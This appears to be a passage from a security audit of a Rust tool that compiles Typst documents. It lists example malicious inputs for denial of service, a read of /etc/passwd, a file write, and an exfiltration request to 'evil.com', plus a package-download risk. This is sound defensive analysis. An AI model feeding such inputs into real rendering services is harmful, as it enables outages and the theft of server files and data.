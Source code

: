 ```rust
                    page_count: doc.pages.len(),
                    max_pages: MAX_COMPILATION_PAGES,
                });
            }
            
            Ok(doc)
        }
        Err(errors) => {
            let diagnostics = map_typst_errors(&errors, world);
            Err(RenderError::CompilationFailed(diagnostics.len(), diagnostics))
        }
    }
}
```

**Critical Vulnerabilities**:

1. **Resource Exhaustion (DoS)**:
   ```typst
   // Infinite loop
   #while true { }
   
   // Memory exhaustion
   #let huge = range(0, 999999999)
   
   // Recursive expansion
   #let rec(n) = if n > 0 { rec(n - 1) } else { 0 }
   #rec(999999)
   ```

2. **Filesystem Access** (if Typst allows):
   ```typst
   // Potential file read (depends on Typst capabilities)
   #read("/etc/passwd")
   
   // Potential file write
   #write("/tmp/exploit", "data")
   ```

3. **Network Access** (if Typst allows):
   ```typst
   // Potential network requests
   #http.get("https://evil.com/exfiltrate?data=...")
   ```

4. **Package Download Exploitation**:
   ```rust
   // quillmark-typst/src/world.rs:90
   Self::download_and_load_external_packages(quill, &mut sources, &mut binaries)?;
   // Could download malicious packages if package source is compromised
   ```

**Recommended Mitigations**:

**Priority Legend**:
- ✅ **Implemented** - Security feature is in place
- ⚠️ **Partially Implemented** - Feature exists but has limitations
- ❌ **Not Implemented** - Still needs to be added
